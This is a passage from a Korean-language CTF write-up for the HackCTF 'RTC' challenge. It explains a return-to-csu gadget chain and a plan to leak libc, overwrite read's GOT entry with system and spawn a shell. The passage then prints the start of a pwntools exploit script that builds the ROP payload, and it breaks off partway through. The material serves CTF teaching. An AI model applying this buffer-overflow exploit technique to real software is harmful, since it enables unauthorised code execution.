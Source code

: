         ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTC/Untitled%204.png)

        인자를 수정할수 있는 부분은 gadet_1부분이다. 여기서 레지스터에 들어간 값을 gaget_2에서 복사하기 때문이다. +81에서 rbp와 rbx가 같으면 add rsp,0x8을 거쳐 다시 gadget_1로 돌아올수 있다.

        따라서 초기에 gadget_1이 수행될때 rbp에 1을 넣으면 gadget_2이 수행되어 cmp를 통과할 수 있다. 이렇게 우리는 계속해서 원하는 함수를 원하는 인자를 넣어 호출할 수 있다.

         

    - 시나리오

        방법을 다 익혔으니, 이제 시나리오를 짜보자.

        1. write libc주소 leak하여 libc_base 주소 얻기
        2. .bss 영역에 read함수를 이용하여 /bin/sh 문자열 넣기
        3. .bss + 8 영역에 read함수를 이용하여 main주소 넣기
        4. main의 read를 bof다시 일으키기
        5. 1번에서 구한 libc_base 주소를 이용하여 read함수를 통해 read_got에 system함수 넣기
        6. system함수 실행

    (각각의 원하는 함수호출을 위한 인자 세팅은 당연히 다 해줘야함.)

<br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz", 3025)
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    #p=process("./rtc",env=env)
    e=ELF("./rtc")
    libc=ELF("./libc.so.6")
    #gdb.attach(p)
    
    p.recvuntil("\n")
    
    # need value
    write_plt=e.plt['write']
    read_got=e.got['read']
    write_got=e.got['write']
    bss_addr=0x601050+0x900
    gadget_1=p64(0x4006ba) # pop rbx,rbp,r12,r13,r14,r15, ret;
    gadget_2=p64(0x4006a0) # mov rdx,r13; mov rsi,r14; mov edi,r15d; call [r12+8*rbx]; 
    		       # add rbx,1; cmp rbx,rbp
    
    # setting for write(1,write_got,8)
    payload="A"*0x48
    payload+=gadget_1
    payload+=p64(0) #rbx
    payload+=p64(1) #rbp
    payload+=p64(write_got) #r12
    payload+=p64(8) #r13
    payload+=p64(write_got)  #r14
    payload+=p64(1) #r15
    